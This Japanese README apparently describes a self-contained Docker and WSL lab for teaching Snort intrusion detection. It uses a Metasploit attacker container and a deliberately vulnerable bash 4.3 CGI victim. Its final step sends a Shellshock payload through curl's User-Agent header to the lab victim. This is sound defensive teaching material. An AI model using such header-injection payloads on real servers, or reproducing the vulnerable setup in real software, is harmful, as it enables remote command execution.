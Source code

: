 # IDS-Education

## 概要
初学者に向けた簡易的かつ安全なIDS教育環境の構築を可能とする
### 特徴
- WSLを用いており、軽量なsnortによるIDS実験環境である
- 攻撃/被攻撃環境は互い以外の通信を完全に遮断されており、外部への攻撃危険性, 外部からの攻撃危険性が低い
- metasploitを用いた実践的な攻撃の演習、検知実験も可能
- Doclerfileの追記および変更やルールファイルの変更による自由度も高い

## ファイル
### shellshock-lab.tat.gz
#### snort-dockerフォルダの構成
```
snort-docker
├── Dockerfile
├── local.rules
└── snort.conf 
```
#### 内容
- Dockerfile: Dockerを起動するためのファイル。起動時にsnortをインストールする
- local.rules: あらかじめTCP通信,およびshellshockによる攻撃をそれぞれ検知するよう設定されたルールファイル。起動時にsnortのrulesフォルダにコピーされる
- snort.conf: 簡易的なsnortの設定が記述されている
#### shellshockフォルダの構成
```
shellshock
├── attacker
│   └── Dockerfile
├── victim
│   ├── Dockerfile
│   └── cgi-bin
│       └── vulnerable.sh
└── docker-compose.yml
```
#### 内容
- attacker: attacker-msfを起動するDockerfileを格納
    - Dockerfile: 起動時にmetasploitやcurlをインストールする
- victim: victim-shellshockを起動するDockerfile等を格納
    - Dockerfile: 起動時にpython3, bash-4.3をインストールする
    - cgi-bin: cgiスクリプトを格納
        - vulnerable.sh: 脆弱なbashを用いてコマンドを実行
- docker-compose.yml: attacker, victimの二つのコンテナのビルド、連携を定義

## 構築手法
1. WindowsにWSLをインストール
2. Githubからshellshock-lab.tar.gzをダウンロード(Downloadsフォルダにダウンロードしたと仮定)
3. WSLにDockerをインストール
4. tarファイルを解凍 \
    例(WSL内のbash)
    - `cd ~/`
    - `tar -xzvf /mnt/c/Users/[ユーザー名]/Downloads/shellshock-lab.tar.gz`
5. snort-dockerフォルダのDockerfile内、監視するブリッジ名を自分の環境に合わせて変更\
    例(WSL内のbash)
    - `cd ~/`
    - `ip a` (br-...という名前のインターフェース名をコピー)
    - `nano snort-docker/Dockerfile`
        - 最終行、CMD内の"br-..."をコピーしたものに変更
6. attack/victim, snortをそれぞれ起動 \
    例(WSL内のbash)
    - `cd ~/snort-docker`
    - `docker build -t monitor-snort .`
    - `docker run -it --rm --network=host --cap-add=NET_ADMIN --cap-add=NET_RAW monitor-snort`
    - (新しいWSLウィンドウを開く)
    - `cd ~/shellshock`
    - `docker-compose build`
    - `docker-compose up -d`
7. 攻撃コンテナの中に入る、攻撃を行う \
    例(WSL内のbash)
    - `docker exec -it attacker-msf /bin/bash`
    - (攻撃コンテナの中に入り、bashが起動)
    - `curl -A '() { :;}; echo vulnerable > /tmp/shellshock.txt' http://victim:8000/cgi-bin/vulnerable.sh`
    - (victim内にshellshock.txtが作成され、snortを起動したウィンドウにはTCP packet detected, shellshock deteted のアラートがそれぞれ表示される)